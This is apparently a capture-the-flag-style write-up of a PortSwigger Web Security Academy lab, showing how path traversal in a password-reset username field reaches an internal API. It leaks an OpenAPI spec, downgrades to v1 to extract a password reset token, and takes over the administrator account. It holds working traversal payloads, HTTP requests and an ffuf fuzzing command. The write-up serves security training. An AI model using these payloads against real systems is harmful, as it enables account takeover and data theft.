








# Exploiting Server-Side Parameter Pollution in a REST URL

**Platform:** PortSwigger Web Security Academy
**Difficulty:** Expert
**Type:** Lab - API Testing
**Objective:** Log in as `administrator` and delete `carlos`
**Key Vulnerability:** `username` is concatenated directly into a server-side REST URL path, enabling path traversal into an internal API, OpenAPI spec disclosure, and an API-version downgrade to leak a password reset token

---

## Attack Flow

```text
No admin creds --> "Forgot password?" --> username=administrator --> masked email
Path traversal test: administrator../%23 --> 404 "Invalid route"
ffuf traversal fuzzing for API doc files --> openapi.json found
openapi.json leaked via 500 error --> reveals /api/internal/v1/users/{username}/field/{field}
JS source --> "passwordResetToken" is a valid field
v2 API (current) --> 400 "only supports the email field"
Downgrade via traversal to /v1/ --> 200 OK --> passwordResetToken leaked
Use token --> reset password --> login as admin --> delete carlos
```

---

## 1. Starting Point




Required knowledge (per lab): server-side URL path vs query string, path traversal in server-side requests, API documentation discovery.

---

## 2. Starting the Reset Flow



```http
POST /forgot-password HTTP/2
Content-Type: x-www-form-urlencoded

csrf=M3d2zw34K6NsEHsJnqScZljD7yCUGUOK&username=administrator
```

```json
{"result":"*****@normal-user.net","type":"email"}
```



---

## 3. Path Traversal Probing

```text
csrf=...&username=administrator../%23
```

```json
{"type":"error","result":"Invalid route. Please refer to the API definition"}
```

Confirms `username` reaches a separate internal API via a server-built path.

---

## 4. Fuzzing for API Documentation

```bash
ffuf -w api-endpoints.txt \
-u https://TARGET/forgot-password \
-H "Cookie: session=mlxgnmLmvBQ9criFkFqJyYSX8ntyQgjA" \
-H "Content-Type: x-www-form-urlencoded" \
-X "POST" \
-d "csrf=M3d2zw34K6NsEHsJnqScZljD7yCUGUOK&username=administrator../../../../../../FUZZ%23" \
-fs 250
```

```text
openapi.json    [Status: 500, Size: 629]
```

---

## 5. Leaking the OpenAPI Spec

```text
csrf=...&username=administrator../../../../../../openapi.json%23
```



```text
/api/internal/v1/users/{username}/field/{field}
```

---

## 6. Crafting the Field Payload

`/static/js/forgotPassword.js` reveals the field name: `passwordResetToken`.

```text
csrf=...&username=administrator/field/passwordResetToken%23
```

```json
{"type":"error","result":"This version of API only supports the email field for security reasons"}
```



---

## 7. API Version Downgrade

The leaked spec referenced `v1`. Traverse to it directly:

```text
csrf=...&username=../../v1/users/administrator/field/passwordResetToken%23
```

```json
{"type":"passwordResetToken","result":"x947tl8knurbs9371p8mg0hofnsb9vq4"}
```



The older `v1` API had no field restriction at all.

---

## 8. Account Takeover

```text
/forgot-password?passwordResetToken=x947tl8knurbs9371p8mg0hofnsb9vq4
```



Set new password → log in as `administrator`.

---

## 9. Deleting Carlos


✅ Lab solved — logged in as `administrator`, `carlos` deleted.

---

## Why It Works

- `username` is concatenated directly into a server-built REST path with no traversal sanitization
- Path traversal pivots into an entirely different internal API, including undocumented routes
- A verbose error on an unexpected response leaked the full OpenAPI spec
- The current API version (`v2`) restricted the `field` parameter, but the older `v1` version — still fully reachable — had no such restriction
- The password reset token was returned directly once the unrestricted endpoint was reached

---

## References

- [PortSwigger — Server-side parameter pollution](https://portswigger.net/web-security/api-testing/parameter-pollution)
- [PortSwigger — Exploiting server-side parameter pollution in a REST URL](https://portswigger.net/web-security/api-testing/parameter-pollution/lab-server-side-parameter-pollution-in-a-rest-url)
